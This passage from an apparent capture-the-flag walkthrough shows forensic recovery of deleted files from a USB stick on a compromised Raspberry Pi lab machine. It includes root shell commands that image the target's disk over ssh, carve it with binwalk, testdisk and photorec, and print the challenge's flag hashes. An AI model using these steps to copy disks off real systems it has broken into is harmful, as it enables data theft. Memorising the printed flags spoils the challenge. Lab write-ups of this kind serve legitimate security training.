0063e30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063ea0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063eb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063ec0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063ed0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063ee0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063ef0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063f90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063fa0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063fb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063fc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063fd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063fe0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063ff0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0064000: 2a00 0000 2c00 0000 2e00 0000 851a f304  *...,...........
0064010: 0200 0400 0000 0000 0000 0000 f304 f54f  ...............O
0064020: 2b00 0000 2d00 0000 ce00 0000 d507 0005  +...-...........
0064030: 0000 0500 0000 0000 0000 0000 0005 d588  ................
0064500: c041 0000 0030 0000 fc31 9159 fc31 9159  .A...0...1.Y.1.Y
0064510: fc31 9159 0000 0000 0000 0200 1800 0000  .1.Y............
0064520: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
0064530: 0000 0000 0000 0000 0c00 0000 6f01 0000  ............o...
0064580: a481 0000 2100 0000 3a32 9159 3a32 9159  ....!...:2.Y:2.Y
0064590: 3a32 9159 0000 0000 0000 0100 0200 0000  :2.Y............
00645a0: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
00645b0: 0000 0000 0000 0000 0100 0000 2a20 0000  ............* ..
00645e0: 0000 0000 a021 39a6 0000 0000 0000 0000  .....!9.........
0064600: a481 0000 0000 0000 e832 9159 e832 9159  .........2.Y.2.Y
0064610: e832 9159 0000 0000 0000 0100 0000 0000  .2.Y............
0064620: 0000 0800 0100 0000 0af3 0000 0400 0000  ................
0064660: 0000 0000 a121 39a6 0000 0000 0000 0000  .....!9.........
0064800: 0000 0000 0000 0000 fc31 9159 fc31 9159  .........1.Y.1.Y
0064810: fc31 9159 0000 0000 0000 0000 0000 0000  .1.Y............
0064880: ed41 0000 0004 0000 eb32 9159 e832 9159  .A.......2.Y.2.Y
0064890: e832 9159 0000 0000 0000 0300 0200 0000  .2.Y............
00648a0: 0000 0800 0200 0000 0af3 0100 0400 0000  ................
00648b0: 0000 0000 0000 0000 0100 0000 6e01 0000  ............n...
0064b00: 8081 0000 0030 0404 fc31 9159 fc31 9159  .....0...1.Y.1.Y
0064b10: fc31 9159 0000 0000 0000 0100 9e00 0000  .1.Y............
0064b50: 0000 0000 0000 0000 0000 0000 7b01 0000  ............{...
0064b80: 8081 0000 0000 1000 fc31 9159 fc31 9159  .........1.Y.1.Y
0064b90: fc31 9159 0000 0000 0000 0100 0008 0000  .1.Y............
0064ba0: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
0064bb0: 0000 0000 0000 0000 0004 0000 7c01 0000  ............|...
0064c00: 0200 0000 0c00 0102 2e00 0000 0200 0000  ................
0064c10: 0c00 0202 2e2e 0000 0b00 0000 1400 0a02  ................
0064c20: 6c6f 7374 2b66 6f75 6e64 0000 0c00 0000  lost+found......
0064c30: 1000 0801 726f 6f74 2e74 7874 0d00 0000  ....root.txt....
0064c40: c403 0a01 6461 6d6e 6974 2e74 7874 0000  ....damnit.txt..
0065000: c03b 3998 0000 0002 0000 0005 0000 0000  .;9.............
0065030: 0000 0000 5991 32ed 3848 6fe2 0000 0000  ....Y.2.8Ho.....
0065400: c03b 3998 0000 0001 0000 0006 0000 002b  .;9............+
0065420: 0000 0000 0000 0002 0000 0002 0000 002f  .............../
0065430: 0000 000a 0000 0000 0000 0000 0000 0000  ................
0065800: ffff ffff ff07 0000 0000 0000 0000 0000  ................
00658f0: 0000 0000 0000 0000 0000 0000 0000 0080  ................
0065900: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065910: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065920: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065930: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065940: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065950: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065960: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065970: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065980: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065990: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00659a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00659b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00659c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00659d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00659e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00659f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065a90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065aa0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065ab0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065ac0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065ad0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065ae0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065af0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065b90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065ba0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065bb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065bc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065bd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065be0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065bf0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0065c00: 2a00 0000 2c00 0000 2e00 0000 851a f304  *...,...........
0065c10: 0200 0400 0000 0000 0000 0000 f304 f54f  ...............O
0065c20: 2b00 0000 2d00 0000 ce00 0000 d407 0005  +...-...........
0065c30: 0000 0500 0000 0000 0000 0000 0005 8474  ...............t
0066100: c041 0000 0030 0000 fc31 9159 fc31 9159  .A...0...1.Y.1.Y
0066110: fc31 9159 0000 0000 0000 0200 1800 0000  .1.Y............
0066120: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
0066130: 0000 0000 0000 0000 0c00 0000 6f01 0000  ............o...
0066180: a481 0000 2100 0000 3a32 9159 3a32 9159  ....!...:2.Y:2.Y
0066190: 3a32 9159 0000 0000 0000 0100 0200 0000  :2.Y............
00661a0: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
00661b0: 0000 0000 0000 0000 0100 0000 2a20 0000  ............* ..
00661e0: 0000 0000 a021 39a6 0000 0000 0000 0000  .....!9.........
0066200: a481 0000 8100 0000 e832 9159 e832 9159  .........2.Y.2.Y
0066210: e832 9159 0000 0000 0000 0100 0200 0000  .2.Y............
0066220: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
0066230: 0000 0000 0000 0000 0100 0000 2b20 0000  ............+ ..
0066260: 0000 0000 a121 39a6 0000 0000 0000 0000  .....!9.........
0066400: c03b 3998 0000 0002 0000 0006 0000 0000  .;9.............
0066430: 0000 0000 5991 330b 3850 7f50 0000 0000  ....Y.3.8P.P....
0800400: 000a 0000 0028 0000 0002 0000 5b22 0000  .....(......["..
0800410: f509 0000 0100 0000 0000 0000 0000 0000  ................
0800420: 0020 0000 0020 0000 0005 0000 0000 0000  . ... ..........
0800430: fc31 9159 0000 ffff 53ef 0000 0100 0000  .1.Y....S.......
0800440: fc31 9159 0000 0000 0000 0000 0100 0000  .1.Y............
0800450: 0000 0000 0b00 0000 8000 0100 3c00 0000  ............<...
0800460: 4202 0000 7900 0000 635b cd7f 1d95 4229  B...y...c[....B)
0800470: bf13 3e72 2026 db3c 0000 0000 0000 0000  ..>r &.<........
08004c0: 0000 0000 0000 0000 0000 0000 0000 2700  ..............'.
08004e0: 0800 0000 0000 0000 0000 0000 d379 5a07  .............yZ.
08004f0: d22e 4775 878b 846d 5ea6 d93e 0101 0000  ..Gu...m^..>....
0800500: 0c00 0000 0000 0000 fc31 9159 0af3 0100  .........1.Y....
0800510: 0400 0000 0000 0000 0000 0000 0004 0000  ................
0800520: 7c01 0000 0000 0000 0000 0000 0000 0000  |...............
0800540: 0000 0000 0000 0000 0000 0000 0000 1000  ................
0800560: 0100 0000 0000 0000 0000 0000 0000 0000  ................
0800570: 0000 0000 0400 0000 7d04 0000 0000 0000  ........}.......
0800800: 2a00 0000 2c00 0000 2e00 0000 851a f504  *...,...........
0800810: 0200 0000 0000 0000 0000 0000 f504 8482  ................
0800820: 2b00 0000 2d00 0000 ce00 0000 d607 0005  +...-...........
0800830: 0000 0100 0000 0000 0000 0000 0005 d403  ................
080a800: 3364 3365 3438 3331 3433 6666 3132 6563  3d3e483143ff12ec
080a810: 3530 3564 3032 3666 6131 3365 3032 3062  505d026fa13e020b
080a820: 0a00 0000 0000 0000 0000 0000 0000 0000  ................
080ac00: 4461 6d6e 6974 2120 536f 7272 7920 6d61  Damnit! Sorry ma
080ac10: 6e20 4920 6163 6369 6465 6e74 616c 6c79  n I accidentally
080ac20: 2064 656c 6574 6564 2079 6f75 7220 6669   deleted your fi
080ac30: 6c65 7320 6f66 6620 7468 6520 5553 4220  les off the USB
080ac40: 7374 6963 6b2e 0a44 6f20 796f 7520 6b6e  stick..Do you kn
080ac50: 6f77 2069 6620 7468 6572 6520 6973 2061  ow if there is a
080ac60: 6e79 2077 6179 2074 6f20 6765 7420 7468  ny way to get th
080ac70: 656d 2062 6163 6b3f 0a0a 2d4a 616d 6573  em back?..-James
080ac80: 0a00 0000 0000 0000 0000 0000 0000 0000  ................
root@raspberrypi:/media/usbstick#
root@raspberrypi:/media/usbstick# grep -a '[a-z0-9]\{32\}' /dev/sdb
�|}*,.�����+-���3d3e483143ff12ec505d026fa13e020b
root@raspberrypi:/media/usbstick#
```

```sh
root@raspberrypi:/media/usbstick# exit
logout
pi@raspberrypi:~/Desktop $ exit
logout
Connection to 10.10.10.48 closed.
root@kali:~/mirai#
root@kali:~/mirai# ssh pi@10.10.10.48 "sudo dcfldd if=/dev/sdb | gzip -1 -" | dcfldd of=pi.dd.gz
pi@10.10.10.48's password:
256 blocks (8Mb) written.
320+0 records in
320+0 records out

1+1 records in
1+1 records out
root@kali:~/mirai# ls -l pi.dd.gz
-rw-r--r-- 1 root root 48104 Feb 15 14:21 pi.dd.gz
root@kali:~/mirai# du -hs pi.dd.gz
48K	pi.dd.gz
root@kali:~/mirai#
root@kali:~/mirai# gunzip -d pi.dd.gz
root@kali:~/mirai# ls
mirai.nmap.gnmap  mirai.nmap.nmap  mirai.nmap.xml  pi.dd
root@kali:~/mirai# binwalk pi.dd

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026
390144        0x5F400         Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026
397312        0x61000         Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026
8388608       0x800000        Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026

root@kali:~/mirai# binwalk -Me pi.dd

Scan Time:     2018-02-15 14:23:18
Target File:   /root/mirai/pi.dd
MD5 Checksum:  d88c96d0ee4f95660be4b93de5fec3bb
Signatures:    344

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026
390144        0x5F400         Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026
397312        0x61000         Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026
8388608       0x800000        Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e7220262026

root@kali:~/mirai# ls
mirai.nmap.gnmap  mirai.nmap.nmap  mirai.nmap.xml  pi.dd  _pi.dd.extracted
root@kali:~/mirai# cd _pi.dd.extracted/
root@kali:~/mirai/_pi.dd.extracted# ls
0.ext  5F400.ext  61000.ext  800000.ext  ext-root
root@kali:~/mirai/_pi.dd.extracted# cd ext-root/
root@kali:~/mirai/_pi.dd.extracted/ext-root# ls
damnit.txt
root@kali:~/mirai/_pi.dd.extracted/ext-root#
```

```sh
root@kali:~/mirai# testdisk pi.dd
```







```sh
root@kali:~/mirai# testdisk pi.dd
TestDisk 7.0, Data Recovery Utility, April 2015
Christophe GRENIER <grenier@cgsecurity.org>
http://www.cgsecurity.org
root@kali:~/mirai# ls
mirai.nmap.gnmap  mirai.nmap.nmap  mirai.nmap.xml  pi.dd  _pi.dd.extracted  root.txt
root@kali:~/mirai# cat root.txt
root@kali:~/mirai#
```

```sh
root@kali:~/mirai# photorec pi.dd
```


```sh
root@kali:~/mirai# photorec pi.dd
PhotoRec 7.0, Data Recovery Utility, April 2015
Christophe GRENIER <grenier@cgsecurity.org>
http://www.cgsecurity.org
root@kali:~/mirai# ls
mirai.nmap.gnmap  mirai.nmap.nmap  mirai.nmap.xml  pi.dd  _pi.dd.extracted  recup_dir.1
root@kali:~/mirai# cd recup_dir.1/
root@kali:~/mirai/recup_dir.1# ls
f0016470.txt  report.xml
root@kali:~/mirai/recup_dir.1# cat report.xml
<?xml version='1.0' encoding='UTF-8'?>
<dfxml xmloutputversion='1.0'>
  <metadata
  xmlns='http://www.forensicswiki.org/wiki/Category:Digital_Forensics_XML'
  xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
    <dc:type>Carve Report</dc:type>
  </metadata>
  <creator>
    <package>PhotoRec</package>
    <version>7.0</version>
    <build_environment>
      <compiler>GCC 7.2</compiler>
      <library name='libext2fs' version='1.43.8'/>
      <library name='libewf' version='none'/>
      <library name='libjpeg' version='libjpeg-turbo-1.5.2'/>
      <library name='libntfs' version='libntfs-3g'/>
    </build_environment>
    <execution_environment>
      <os_sysname>Linux</os_sysname>
      <os_release>4.14.0-kali3-686-pae</os_release>
      <os_version>#1 SMP Debian 4.14.12-2kali2 (2018-01-11)</os_version>
      <host>kali</host>
      <arch>i686</arch>
      <uid>0</uid>
      <start_time>2018-02-15T14:36:43-0500</start_time>
    </execution_environment>
  </creator>
  <source>
    <image_filename>pi.dd</image_filename>
    <sectorsize>512</sectorsize>
    <image_size>10485760</image_size>
    <volume>
      <byte_runs>
        <byte_run offset='0' img_offset='0' len='10485760'/>
      </byte_runs>
      <block_size>1024</block_size>
    </volume>
  </source>
  <configuration>
  </configuration>
  <fileobject>
    <filename>f0000002.ext</filename>
    <filesize>2048</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='1024' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0000732.ext</filename>
    <filesize>1024</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='374784' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0000734.ext</filename>
    <filesize>1024</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='375808' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0000764.ext</filename>
    <filesize>2048</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='391168' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0000774.ext</filename>
    <filesize>1024</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='396288' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0000778.ext</filename>
    <filesize>2048</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='398336' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0000806.ext</filename>
    <filesize>1024</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='412672' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0016386.ext</filename>
    <filesize>2048</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='8389632' len='1024'/>
    </byte_runs>
  </fileobject>
  <fileobject>
    <filename>f0016470.txt</filename>
    <filesize>129</filesize>
    <byte_runs>
      <byte_run offset='0' img_offset='8432640' len='1024'/>
    </byte_runs>
  </fileobject>
</dfxml>
root@kali:~/mirai/recup_dir.1# cat f0016470.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@kali:~/mirai/recup_dir.1#
```

```sh
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707441b257a20e32199d7c8838d
pi@raspberrypi:~/Desktop $
```

```sh
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:/media/usbstick#
```